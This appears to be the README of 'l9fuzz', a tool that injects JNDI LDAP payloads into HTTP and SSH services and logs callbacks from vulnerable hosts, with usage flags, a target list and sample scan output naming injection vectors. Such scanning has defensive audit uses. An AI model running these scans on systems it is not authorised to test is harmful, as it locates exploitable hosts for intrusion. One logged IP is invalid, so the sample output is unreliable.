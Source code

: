 # l9fuzz

Fuzzes various protocols with JNDI LDAP payloads and listen for ping backs

## Features

- Low CPU/Memory footprint
- Integrated LDAP server
- Trace orignal source and vector
- Gets a direct IP and not a DNS resolver
- Use of templating with multiple tokens

## Usage

```
Usage: l9fuzz scan --listen-address=STRING --input-file=INPUT-FILE

Scans url for JNDI

Flags:
  -h, --help                       Show context-sensitive help.

      --timeout=2s
      --wait=1m
  -l, --listen-address=STRING      Listen address (ip:port)
  -i, --input-file=INPUT-FILE      Input file, - for STDIN
  -o, --output-file=OUTPUT-FILE    Output file
  -L, --ldap-debug=LDAP-DEBUG      LDAP server debug log file
  -m, --max-connections=100        Max connections
  -q, --quiet                      No progress bar
  -k, --psk="no-payload-check"     Payload sign key
  -t, --template=STRING            Bypasses protocols and use TCP template (stateless)

```

## Input file structure

```
http://12.44.55.66:8000/test
ssh://34.54.33.22:22
ssh://32.54.33.32:22
ssh://34.54.33.25:2222
```

## Output

```
$ ./l9fuzz scan -i - -m 400 -l 167.71.13.196:45432 
Started server at 167.71.13.196:45432
[ldap-reply] From: 14.201.105.110:51428 | Source: https://24.201.106.150:443 | Vector: http-header-x-forwarded-for | Delay: 1.849171982s
[ldap-reply] From: 14.201.105.110:51426 | Source: https://24.201.106.150:443 | Vector: http-url-path | Delay: 1.850494525s
[ldap-reply] From: 257.130.120.178:55897 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.506910982s
[ldap-reply] From: 257.130.120.178:10247 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.537421598s
[ldap-reply] From: 257.130.120.178:3467 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.54305658s
[ldap-reply] From: 257.130.120.178:29311 | Source: http://45.199.107.194:80 | Vector: http-url-query-key | Delay: 14.577900357s
[ldap-reply] From: 257.130.120.178:45846 | Source: http://45.199.107.194:80 | Vector: http-url-query-value | Delay: 14.764612109s
$ ./l9fuzz scan -t templates/http.txt -i source.txt -l 127.0.0.1:4555
```